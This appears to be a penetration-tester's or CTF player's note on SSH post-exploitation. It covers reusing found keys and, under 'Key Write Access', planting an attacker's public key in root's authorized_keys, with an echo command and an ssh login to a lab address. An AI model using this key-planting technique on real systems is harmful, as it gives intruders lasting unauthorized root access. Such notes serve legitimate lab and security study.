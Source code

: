 
# Table of Contents

1. See general SSH [[2. Enumeration/22. SSH/1. Guide|Guide]] 
2. If you find a weak public key, see [[RSA Decrypt]]
# Access to a Key

If you find an SSH key, attempt to use that key to login to the related user and all possible users.
# Key Write Access

#securing-root 

Make new keys if you have root write access

1. Create new ssh keys using ssh-keygen on your machine
2. Copy the public key from `id_rsa.pub` and create a new file `authorized_keys` in `/root/.ssh/`
3. Get a SSH connection on your machine: `ssh -i id_rsa root@10.10.10.220`


```
$ cd /home/user
$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGEUzu7cGthWtPNXM5/rAvPBywgyh68AEpSyUBXm24kByXu+GhEmvAiVlkAhasBgTjiCbpup3dmzz54ADlo4T2jUWoVVEDOw82eKQ6EoqpYnHGVmpDmJ1n7+eCvb3ut0bl5VOnTkhYSWS8G9V6V+E/VmDun63HoHCHzvtBlbN/ZmhRKxdwNFSYN/NswU8MFK+MVXxa/FJUxrOJVAnefXQdfDBxIt4j/qqMr68u9lQfqOX5shmS0M55lFNAY2mR6INBQtT6AnAWremPCHdUHxU3eSvzUcItaamecSPTfDgMQDQkxXrrsKQLkJeCKZ/1EwDBXIF3RGCeNGq0hCYHSF8d root@kali" > .ssh/authorized_keys$
```

# Running Internally

It is possible to SSH internally if there is SSH running already on the victim, `ps aux` to privilege escalation